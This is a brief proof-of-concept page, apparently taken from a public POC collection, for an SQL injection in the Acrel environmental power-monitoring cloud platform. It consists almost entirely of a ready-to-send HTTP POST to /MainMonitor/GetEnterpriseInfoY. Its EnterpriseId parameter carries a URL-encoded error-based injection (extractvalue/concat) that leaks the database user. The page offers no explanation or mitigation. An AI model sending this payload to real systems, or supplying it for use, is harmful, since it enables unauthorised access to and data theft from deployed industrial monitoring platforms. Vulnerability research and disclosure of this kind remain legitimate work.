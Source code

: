 # AcrelCloud_etEnterpriseInfoY_sqli

from: https://github.com/wy876/POC/blob/main/%E5%AE%89%E7%A7%91%E7%91%9E/%E5%AE%89%E7%A7%91%E7%91%9E%E7%8E%AF%E4%BF%9D%E7%94%A8%E7%94%B5%E7%9B%91%E7%AE%A1%E4%BA%91%E5%B9%B3%E5%8F%B0etEnterpriseInfoY%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md

product: 安科瑞环保用电监管云平台

```
POST /MainMonitor/GetEnterpriseInfoY HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: text/plain, */*; q=0.01

EnterpriseId=2107265665700008%27and%2F%2A%2A%2Fextractvalue%281%2Cconcat%28char%28126%29%2Cuser%28%29%29%29and%27&Type=4
```
